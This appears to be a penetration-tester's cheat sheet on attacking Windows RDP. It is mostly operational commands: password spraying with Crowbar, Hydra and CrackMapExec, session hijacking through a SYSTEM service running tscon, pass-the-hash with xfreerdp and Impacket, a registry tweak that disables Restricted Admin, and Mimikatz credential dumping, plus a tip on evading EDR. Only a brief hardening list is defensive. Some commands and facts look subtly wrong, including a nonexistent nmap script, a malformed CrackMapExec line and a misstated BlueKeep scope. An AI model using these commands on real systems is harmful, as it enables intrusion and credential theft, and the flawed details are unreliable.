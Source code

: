```yaml
---
title: "Attacking Common Services — RDP"
tags: [attacking-common-services, rdp, brute-force, lateral-movement, session-hijack]
tools: [nmap, rdesktop, xfreerdp, crowbar, hydra, rdpscan, meterpreter, impacket, mimikatz, psexec, quser, tscon]
---
```


# RDP

## Summary
Credential theft (via Mimikatz), Pass‑the‑Hash (PtH), and session hijacking. RDP also has historic remote code execution vulnerabilities (e.g., BlueKeep CVE‑2019‑0708) — always check patch levels and exposure.

---

## Discovery & Enumeration
- Scan for RDP (default port 3389) and non-standard ports:
```bash
nmap -sV -p3389 --script rdp-enum-encryption,rdesktop-brute <target>
```
- `rdpscan`/`rdpy` can fingerprint RDP versions and enforce detection.
- Check for NLA (Network Level Authentication) — presence increases difficulty for simple brute-force.

**Quick check for NLA with xfreerdp**:
```bash
xfreerdp /v:<ip> /u:invaliduser /cert-ignore
# if prompts for credentials earlier, NLA is enabled
```

---

## Password Spraying & Brute-force
- Prefer password spraying (one password across many accounts) to avoid lockouts.
- Tools: Crowbar (rdp module), Hydra, CrackMapExec (rdp), Ncrack (rdp)

```bash
# Crowbar spraying (single password)
crowbar -b rdp -s 192.168.220.0/24 -U users.txt -c 'Summer2024!'

# Hydra
hydra -L users.txt -p 'Password123!' <ip> rdp

# CrackMapExec (RDP module)
crackmapexec smb <target> -u users.txt -p 'Password123!' --rdp
```

Notes:
- Respect account lockout thresholds and timing — spray slowly.
- Check for exposed RDP-over-HTTP/alternate ports.

---

## Accessing RDP from Linux
- `rdesktop` (old but handy):
```bash
rdesktop -u Administrator -p 'Passw0rd' <ip>
```
- `xfreerdp` (recommended):
```bash
xfreerdp /v:<ip> /u:Administrator /p:'Passw0rd' /cert-ignore
```
- For GUI-less shells use `smb` or `winrm` if available.

---

## Session Hijacking
If you can run commands on a host with sufficient privileges (or create a service), you can hijack active RDP sessions using `tscon`.

**View sessions**:
```powershell
query user
```

**Hijack a session (requires SYSTEM or admin priv):**
```cmd
# from SYSTEM
tscon <TARGET_SESSION_ID> /dest:<OUR_SESSION_NAME>

# Or create a service that runs tscon as SYSTEM
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
```

**Note:** creating services requires elevated privileges — use psexec, Meterpreter (getsystem), or scheduled tasks as escalation vectors.

---

## Pass‑the‑Hash & NTLM Relaying
- If you have NTLM hashes, you can authenticate without plaintext passwords using PtH to RDP (xfreerdp `/pth` flag) or via Impacket tools (`wmiexec.py`, `psexec.py`).

```bash
# xfreerdp PtH
xfreerdp /v:<ip> /u:Administrator /pth:NTLM_HASH /cert-ignore

# Impacket example
python3 /usr/share/doc/impacket/examples/psexec.py DOMAIN/Administrator@<target> -hashes :NTLM_HASH
```

**Registry tweak for Restricted Admin mode errors** (if encountering Restricted Admin restrictions):
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

---

## Post‑Access Techniques
- Use Mimikatz to extract plaintext credentials / NTLM hashes from memory (requires SYSTEM or debug privileges).
- Dump credentials and try lateral RDP to other hosts.
- Enable `winrm` for scripted lateral movement if allowed in scope.

**Mimikatz basics (on-windows)**:
```powershell
# as admin
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

**Note:** some AV/EDR will detect Mimikatz — consider in-memory execution or off-host memory dumps.

---

## Vulnerabilities & CVEs
- CVE‑2019‑0708 (BlueKeep) — pre-RDP 8.1/2012/2016 unpatched systems
- Monitor MSRC and patching state; remote code execution vulnerabilities are rare but severe.

---

## Detection & Hardening Notes (for reporting)
- NLA should be enabled to prevent unauthenticated RDP handshakes.
- Enforce account lockout policies and MFA for remote access.
- Restrict RDP exposure via VPN or jump boxes; log and alert on failed authentication and new source IPs.
- Disable cached credentials where possible and limit local admin accounts.

---

## Quick Cheatsheet
```bash
# Scan
nmap -p3389 --script rdp-enum-encryption -Pn <target>

# Bruteforce (slow spray)
crowbar -b rdp -s <target>/32 -U users.txt -c 'Autumn2024!'

# RDP connect
xfreerdp /v:<ip> /u:Administrator /p:'P@ssw0rd' /cert-ignore

# PtH
xfreerdp /v:<ip> /u:Administrator /pth:NTLM_HASH /cert-ignore
```
